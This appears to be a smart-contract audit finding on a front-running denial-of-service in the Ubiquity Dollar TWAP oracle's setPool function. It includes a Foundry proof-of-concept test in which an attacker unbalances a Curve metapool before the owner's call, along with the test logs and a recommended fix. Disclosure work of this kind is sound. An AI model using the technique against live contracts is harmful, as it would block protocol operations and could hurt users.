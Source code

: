 High Velvet Urchin

medium

# DOS Risk in `TWAPOracleDollar3poolFacet::setPool` Function

## Summary

## Vulnerability Detail

There is a `DOS` risk when owners attempt setting a curve metapool as a `TWAP` oracle via [TWAPOracleDollar3poolFacet::setPool](https://github.com/sherlock-audit/2023-12-ubiquity/blob/d9c39e8dfd5601e7e8db2e4b3390e7d8dff42a8e/ubiquity-dollar/packages/contracts/src/dollar/facets/TWAPOracleDollar3poolFacet.sol#L18-L23) functionality.

The issue arises due to a strict equality check between both reserves in [LibTWAPOracle::setPool](https://github.com/sherlock-audit/2023-12-ubiquity/blob/d9c39e8dfd5601e7e8db2e4b3390e7d8dff42a8e/ubiquity-dollar/packages/contracts/src/dollar/libraries/LibTWAPOracle.sol#L51):
```solidity
        //Ensure that pair balance is perfect
        require(_reserve0 == _reserve1, "TWAPOracle: PAIR_UNBALANCED");
```

The problem is that an attacker can front-run the owner `setPool` call to add liquidity to one reserve in `Curve`, unbalancing the pair and causing a Denial of Service.

## POC

+ I have added a runnable POC demonstrating the issue below:

Please update `packages/contracts/src/dollar/mocks/MockMetaPool.sol` [add_liquidity](https://github.com/sherlock-audit/2023-12-ubiquity/blob/d9c39e8dfd5601e7e8db2e4b3390e7d8dff42a8e/ubiquity-dollar/packages/contracts/src/dollar/mocks/MockMetaPool.sol#L69-L81) function to:
```solidity
    function add_liquidity(
        uint256[2] memory _amounts,
        uint256 _min_mint_amount,
        address _receiver
    ) external returns (uint256 result) {
        mint(
            _receiver,
            _min_mint_amount == 0
                ? _amounts[0] > _amounts[1] ? _amounts[0] : _amounts[1]
                : _min_mint_amount
        );
        balances[1] += _min_mint_amount; //update fn to account for our update to the balance of token1 in test
        return result;
    }
```
then, add the below test to
`packages/contracts/test/diamond/facets/TWAPOracleFacet.t.sol`, and then run:
```solidity
forge test -vvv --match-path test/diamond/facets/TWAPOracleFacet.t.sol --match-test test_Revert
```
```solidity

    function test_Revert() public {
        MockMetaPool metaPool = new MockMetaPool(
            address(dollarToken),
            curve3CRVTokenAddress
        );
        address bob = address(0xB0b);

        //initial reserves are equal
        uint256 reserve0 = metaPool.balances(0);
        uint256 reserve1 = metaPool.balances(1);
        assertEq(reserve0, reserve1);

        vm.roll(block.number + 5);

        //bob notices owner txn then front runs the txn to add liquidity to one coin in the pool to unbalance the pool
        // hence, causing owner txn to fail
        vm.prank(bob);
        uint256[2] memory amounts = [uint256(0), uint256(10e18)];
        metaPool.add_liquidity(amounts, 10e18, bob);

        //Reserves are no longer equal
        assertGt(metaPool.balances(1), metaPool.balances(0));

        //goes on to revert on owner txn call, DOSSing all owner's set pool attempts
        vm.expectRevert("TWAPOracle: PAIR_UNBALANCED");
        vm.prank(owner);
        twapOracleDollar3PoolFacet.setPool(
            address(metaPool),
            curve3CRVTokenAddress
        );
    }

```

+ Here are the logs:
```solidity
[⠃] Compiling...
[⠔] Compiling 1 files with 0.8.19
[⠑] Solc 0.8.19 finished in 14.54s
Compiler run successful!

Running 1 test for test/diamond/facets/TWAPOracleFacet.t.sol:TWAPOracleDollar3poolFacetTest
[PASS] test_Revert() (gas: 1450709)
Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 1.21s
 
Ran 1 test suites: 1 tests passed, 0 failed, 0 skipped (1 total tests)
```


## Impact

## Code Snippet
https://github.com/sherlock-audit/2023-12-ubiquity/blob/d9c39e8dfd5601e7e8db2e4b3390e7d8dff42a8e/ubiquity-dollar/packages/contracts/src/dollar/libraries/LibTWAPOracle.sol#L51


## Tool used

Manual Review

## Recommendation
As discussed with a sponsor, the below `require` check should be removed.

```diff
    function setPool(address _pool, address _curve3CRVToken1) internal {
        require(
            IMetaPool(_pool).coins(0) ==
                LibAppStorage.appStorage().dollarTokenAddress,
            "TWAPOracle: FIRST_COIN_NOT_DOLLAR"
        );
        TWAPOracleStorage storage ts = twapOracleStorage();

        // coin at index 0 is Ubiquity Dollar and index 1 is 3CRV
        require(
            IMetaPool(_pool).coins(1) == _curve3CRVToken1,
            "TWAPOracle: COIN_ORDER_MISMATCH"
        );

        uint256 _reserve0 = uint112(IMetaPool(_pool).balances(0));
        uint256 _reserve1 = uint112(IMetaPool(_pool).balances(1));

        // ensure that there's liquidity in the pair
        require(_reserve0 != 0 && _reserve1 != 0, "TWAPOracle: NO_RESERVES");
        // ensure that pair balance is perfect
--        require(_reserve0 == _reserve1, "TWAPOracle: PAIR_UNBALANCED"); 
        ts.priceCumulativeLast = IMetaPool(_pool).get_price_cumulative_last();
        ts.pricesBlockTimestampLast = IMetaPool(_pool).block_timestamp_last();
        ts.pool = _pool;
        // dollar token is inside the diamond
        ts.token1 = _curve3CRVToken1;
        ts.price0Average = 1 ether;
        ts.price1Average = 1 ether;
    }
```
